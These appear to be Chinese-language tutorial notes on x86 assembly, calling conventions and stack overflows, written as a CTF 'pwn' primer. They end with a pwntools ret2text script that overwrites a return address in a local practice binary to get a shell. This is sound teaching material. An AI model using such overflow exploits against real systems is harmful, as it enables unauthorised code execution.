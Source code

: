 
## 汇编基础

简单 X86 汇编
学习汇编应该了解的方向
+ 寄存器模式及定义
+ 指令集

CPU 内部寄存器之间的数据传送

```asm
MOV AL,DH   ; AL  <- DH  (8位)
MOV DX,AX   ; DX  <- AX  (16位)
MOV EAX,ESI ; EAX <- ESI (32位)
```
CPU 内部寄存器和存储器之间的数据传输

```asm
MOV [BX],AX   ; 间接寻址 (16位)
MOV EAX,[EBX+ESI]   ;基址变址寻址 (32位)
MOV AL,BLOCK ; BLOCK 为变量名，直接寻址 (8位)
```
立即数和通用寄存器，存储器
```asm
MOV EAX,123456H; EAX<-123456H (32位)
MOV [BX],12H ; 间接寻址 (8位)
MOV AX,1234H; AX<-1234H (16位)
```

ADD/SUB/INC/DEC/MUL/DIV/AND/OR/XOR/NOT
例如 ADD EAX,EBX; EAX = EAX + EBX

CMP 比较指令 (重点)
cmp 指令是实现逻辑判断的核心，cmp指令通过对两个操作数进行减法操作， <font color="red">  仅记录标志位信息，而不保存结果 </font>

+ OF (Overflow Flag) 溢出标志，溢出时为1，否则置为0。
+ SF (Sign Flag) 符号标志，结果为负时置为1，否则为0。
+ ZF (Zero Flag) 零标志，运算结果为0时ZF 为1，否则置为0。
+ CF (Carry Flag) 进位标志，进位时置为1，否则置为0。

栈是我们做PWN时的一个十分重要的数据结构，栈区也是一个需要注意的内存区域，重点来了解栈相关的汇编操作。

栈是一种数据结构，从感性上来说，我们可以将它想象为一只羽毛球筒，球只能从筒口插入，从另外一个筒口取出

栈具有 push 和 pop 两种操作。分别叫做入栈与出栈

```x86asm
push eax  ; 将 eax 寄存器的值入栈
esp -= 4
pop eax   ; 将栈顶的值弹出给 eax 寄存器
esp += 4
```
进程中每个函数在运行过程中都要保存自己的临时数据，这些数据就会被保存在栈上。

但是不同的函数不能把数据放在一起，每个函数都要有自己的栈空间。系统给出的解决方案就是栈帧

栈帧指的就是一个函数在运行时使用的栈空间，它由 esp 和 ebp 表示边界.

esp 与 ebp 是CPU 中的两个特殊寄存器，esp 叫做栈顶指针寄存器，ebp 叫做栈底指针寄存器。两个寄存器专门用来表示 stack 范围。



## 函数调用约定

调用约定规范了函数之间调用的方式，参数如何传递，返回值如何传递，栈由谁来平衡。

1. `__cdecl`
`__cdecl` 调用约定又称 C 调用约定，是 C/C++ 语言缺省的调用约定。参数按照从右至左的方式入栈，函数本身不清理栈，此工作由调用者负者，返回值在 EAX 中。由于由调用者清理栈，所以允许可变参数函数存在，如 `int sprintf(char* buffer,const* format,...);`
2. `__stdcall` 
`__stdcall` 很多时候被称为 pascal 调用约定。pascal 语言是早期很常见的一种教学用计算机程序设计语言，其语法严谨。参数安装从右至左的方式入栈，函数自身清理堆栈，返回值在 EAX 中。
3. `__fastcall`
`__fastcall` 顾名思义，`__fastcall` 的特点就是快，因为它通过 CPU 寄存器来传递参数。它用 ECX 和 EDX 传送前两个双字 (DWORD) 或更小的参数，剩下的参数按照从右至左的方式入栈，函数自身清理堆栈，返回值在 EAX 中。


栈溢出

刚刚我们了解过了栈的相关知识，那么什么是栈溢出呢?

1. 注意栈地址是高地址向低地址增长的，下方是低地址，上方是高地址。
2. 我们输入是低地址想高地址增长的,如果我们输入的数据过多，就会写完当前局部变量后继续覆盖其它变量，结果可能就会导致覆盖到 `return addr` 导致劫持程序的控制流。


## PWN 基础知识

## `ret2text`

通过 pwndbg 中的一个小工具 cyclic,可以直接生成具有一定规律的字符串，用于我们确定偏移

我们可以使用 `cyclic -l daab` 来确定偏移.


pwntools 常用API

```python
process() 加载本地二进制文件，启动进程
remote() 连接远程服务器
sendline() 发送数据 (包括回车)
send() 发送数据 (不包括回车)
interactive() 启动交互模式，通常获取 shell 之后利用这个 API 手动交互
p64(),p32()等 封装发送数据的字节序，例如：p64(0x1001) -> \x01\x10
u64(),u32() 等： 解封装接受到的数据
recv() 接受数据
recvuntil(xxx) 接收到 xxx 才继续执行

gdb.attach(xxx) : 启动 gdb 并自动附加，可选参数 xxx,在启动 gdb 时执行一些命令
context(log_level="xxx") 设置调试信息等级
```


```python
from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
s = process("./ret2text")
# gdb.attach(s,'b *0x080486b3\nc')
payload = "A"*112 + p32(0x0804863a)
s.sendline(payload)
s.interactive()
```



